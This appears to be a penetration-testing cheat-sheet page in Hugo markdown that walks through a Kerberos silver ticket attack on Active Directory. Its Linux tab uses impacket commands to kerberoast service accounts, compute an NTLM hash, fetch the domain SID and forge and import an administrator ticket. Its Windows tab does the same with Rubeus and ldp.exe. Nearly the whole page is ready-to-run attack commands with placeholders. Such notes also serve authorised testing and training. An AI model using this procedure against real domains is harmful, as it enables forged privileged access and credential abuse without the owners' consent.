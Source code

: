 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN)

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

#### 3. Get domain SID

```console
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn <SPN> administrator
```

#### 5. Import ticket

```console
export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN)

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

#### 3. Get domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Driectory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:<SPN> /nowrap /ptt
```

#### 5. Check

```console
klist
```

{{< /tabcontent >}}
